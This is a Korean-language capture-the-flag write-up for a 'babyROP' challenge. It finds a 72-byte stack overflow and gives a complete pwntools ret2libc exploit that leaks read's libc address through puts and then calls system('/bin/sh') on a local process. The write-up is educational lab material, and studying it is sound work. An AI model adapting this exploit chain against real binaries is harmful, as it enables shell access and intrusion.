 # babyROP 문제 풀이



## Proof of concopt

### checksec

![image](https://user-images.githubusercontent.com/59410565/119943484-11ef5d80-bfce-11eb-8518-d384ee74d8e9.png)

64bit 파일이고, Partial RELRO와 NX가 적용되어 있다. 따라서 ROP로 우회하여 공격할 수 있을 것 같다.

### IDA

> main() 함수

![image](https://user-images.githubusercontent.com/59410565/119944206-efaa0f80-bfce-11eb-9239-ecca41240c9c.png)

"Welcome to 64bit ROP world!\n"를 출력하고 "What is your name?\n"을 출력한다(0x12 길이 만큼). read() 함수를 통해 buf를 입력받는다. 이때 buf의 크기보다 더 많이 입력을 받을 수 있어 overflow가 발생한다. 이후 "Hello, buf의 내용!!\n"을 출력한 뒤 종료한다.



### GDB

![image](https://user-images.githubusercontent.com/59410565/119944879-c6d64a00-bfcf-11eb-9516-d5576759c437.png)

**[Break Point]**

- main+0 : main() 함수 코드 첫 부분
- main+65 : read() 함수 호출 전

![image](https://user-images.githubusercontent.com/59410565/119945457-71e70380-bfd0-11eb-8182-0d2165d96c38.png)

![image](https://user-images.githubusercontent.com/59410565/119945576-993dd080-bfd0-11eb-8c0c-09c9b9f81a1a.png)

Return address와 buf 변수의 시작 주소의 차는 72이다. 즉, 72개 이상의 문자를 입력하면 RET을 변조할 수 있다. 



## Exploit

### Exploit 순서

```
1. read.got를 puts.plt에 저장
2. "?"까지 받아온 뒤, payload 전달 >> read 주소를 알아내기 위함
3. u64(r.recvuntil("\x7f")[-6:].ljust(8, '\x00'))을 사용해 read address를 얻어와 libcbase를 구함
4. binsh와 system 전달
```



### plt, got 주소 찾기 - read, puts

> pwntools를 사용하여 주소를 출력하기

```python
from pwn import *

e = ELF("./babyROP")

read_got = e.got["read"]
read_plt = e.plt["read"]
print("read@got : " + str(hex(e.got["read"])))
print("read@plt : " + str(hex(e.plt["read"])))

puts_plt = e.plt["puts"]
print("puts@plt : " + str(hex(e.plt["puts"])))
```



### 가젯 찾기

> rp++

![image](https://user-images.githubusercontent.com/59410565/119947809-1d915300-bfd3-11eb-8b36-4a3ec2d174f4.png)

> ROPgadget

![image](https://user-images.githubusercontent.com/59410565/119948037-634e1b80-bfd3-11eb-9e92-94cf3280fe78.png)

```python
pop_rdi_ret = 0x4006c3
```



### system(), "/bin/sh" offset 찾기

```python
libcbase_system_offset = e.libc.symbols['system']
binsh_offset = 0x18ce57
```

![image](https://user-images.githubusercontent.com/59410565/119952139-a4482f00-bfd7-11eb-896d-b1ff97e6fc86.png)

![image](https://user-images.githubusercontent.com/59410565/119951974-7ebb2580-bfd7-11eb-93f5-fe3082dd14f6.png)



### Exploit code

```python
from pwn import *

#context.log_level = 'debug'

e = ELF("./babyROP")
r = process('./babyROP')

read_got = e.got["read"]
read_plt = e.plt["read"]
print("read@got : " + str(hex(e.got["read"])))
print("read@plt : " + str(hex(e.plt["read"])))

puts_plt = e.plt["puts"]
print("puts@plt : " + str(hex(e.plt["puts"])))

main_addr = e.symbols['main']

pop_rdi_ret = 0x4006c3

libcbase_system_offset = e.libc.symbols['system']
libcbase_read_offset = e.libc.symbols['read']
binsh_offset = 0x18ce57
print("system offset : " + str(hex(libcbase_system_offset)))
print("read offset : " + str(hex(libcbase_read_offset)))
print("binsh offset : " + str(hex(binsh_offset)))

payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(main_addr)

r.recvuntil("?")
r.send(payload)

read_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
print("read addr : " + str(hex(read_addr)))
libcbase = read_addr - libcbase_read_offset
print("libcbase : " + str(hex(libcbase)))

#/bin/sh
payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(libcbase + binsh_offset)
payload += p64(libcbase + libcbase_system_offset)

r.send(payload)
r.interactive()
```



### Result

![image](https://user-images.githubusercontent.com/59410565/119957583-27b84f00-bfdd-11eb-942b-0e76dab5eb42.png)